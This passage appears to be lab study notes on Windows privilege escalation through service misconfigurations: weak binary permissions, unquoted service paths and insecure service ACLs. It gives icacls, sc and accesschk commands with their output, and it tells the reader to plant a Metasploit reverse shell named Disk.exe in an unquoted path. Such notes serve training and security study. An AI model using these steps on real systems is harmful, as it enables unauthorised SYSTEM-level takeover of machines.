 ```bash
C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F

C:\> sc stop windowsscheduler 
C:\> sc start windowsscheduler
```


## Unquoted Service Paths

```powershell
C:\> sc qc "vncserver"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: vncserver
    TYPE               : 10  WIN32_OWN_PROCESS
    START_TYPE         : 2   AUTO_START
    ERROR_CONTROL      : 0   IGNORE
    BINARY_PATH_NAME   : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service
    LOAD_ORDER_GROUP   :
    TAG                : 0
    DISPLAY_NAME       : VNC Server
    DEPENDENCIES       :
    SERVICE_START_NAME : LocalSystem
```

`"C:\Program Files\RealVNC\VNC Server\vncserver.exe"` not unquoted :(
```powershell
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
    TYPE               : 10  WIN32_OWN_PROCESS
    START_TYPE         : 2   AUTO_START
    ERROR_CONTROL      : 0   IGNORE
    BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
    LOAD_ORDER_GROUP   :
    TAG                : 0
    DISPLAY_NAME       : Disk Sorter Enterprise
    DEPENDENCIES       :
    SERVICE_START_NAME : .\svcusr2
```

`C:\MyPrograms\Disk Sorter`  unquoted !!!
`icacls C:\MyPrograms` -> if you have **AD** and **WD** privileges, create a revshell with metasploit called Disk.exe and place it at `C:\MyPrograms`
```
C:\> sc stop "disk sorter enterprise" 
C:\> sc start "disk sorter enterprise"
```

## Insecure Service Permissions

```
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
```